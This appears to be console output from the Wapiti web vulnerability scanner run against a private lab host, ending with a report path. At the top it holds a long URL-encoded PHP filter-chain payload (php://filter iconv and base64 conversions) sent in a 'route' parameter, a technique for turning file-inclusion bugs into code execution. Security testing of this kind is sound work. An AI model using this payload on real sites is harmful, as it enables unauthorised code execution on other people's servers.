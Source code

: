 ```console
    route=php%3A%2F%2Ffilter%2Fconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.iconv.UCS2.UTF-8%7Cconvert.iconv.CSISOLATIN6.UCS-4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.851.UTF-16%7Cconvert.iconv.L1.T.618BIT%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSA_T500.UTF-32%7Cconvert.iconv.CP857.ISO-2022-JP-3%7Cconvert.iconv.ISO2022JP2.CP775%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM891.CSUNICODE%7Cconvert.iconv.ISO8859-14.ISO6937%7Cconvert.iconv.BIG-FIVE.UCS-4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L5.UTF-32%7Cconvert.iconv.ISO88594.GB13000%7Cconvert.iconv.BIG5.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1162.UTF32%7Cconvert.iconv.L4.T.61%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.iconv.R9.ISO6937%7Cconvert.iconv.OSF00010100.UHC%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.863.UTF-16%7Cconvert.iconv.ISO6937.UTF16LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP-AR.UTF16%7Cconvert.iconv.8859_4.BIG5HKSCS%7Cconvert.iconv.MSCP1361.UTF-32LE%7Cconvert.iconv.IBM932.UCS-2BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP-AR.UTF16%7Cconvert.iconv.8859_4.BIG5HKSCS%7Cconvert.iconv.MSCP1361.UTF-32LE%7Cconvert.iconv.IBM932.UCS-2BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L6.UNICODE%7Cconvert.iconv.CP1282.ISO-IR-90%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.BIG5HKSCS.UTF16%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF16%7Cconvert.iconv.ISO6937.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF32%7Cconvert.iconv.L6.UCS-2%7Cconvert.iconv.UTF-16LE.T.61-8BIT%7Cconvert.iconv.865.UCS-4LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.MAC.UTF16%7Cconvert.iconv.L8.UTF16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSIBM1161.UNICODE%7Cconvert.iconv.ISO-IR-156.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.INIS.UTF16%7Cconvert.iconv.CSIBM1133.IBM943%7Cconvert.iconv.IBM932.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.base64-decode%2Fresource%3Dphp%3A%2F%2Ftemp
---
1 requests were skipped due to network issues

[*] Launching module ssrf
1 requests were skipped due to network issues

[*] Launching module cookieflags

[*] Launching module permanentxss

[*] Generating report...
A report has been generated in the file /home/devloop/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.242.131_05222023_1403.html with a browser to see this report.
```
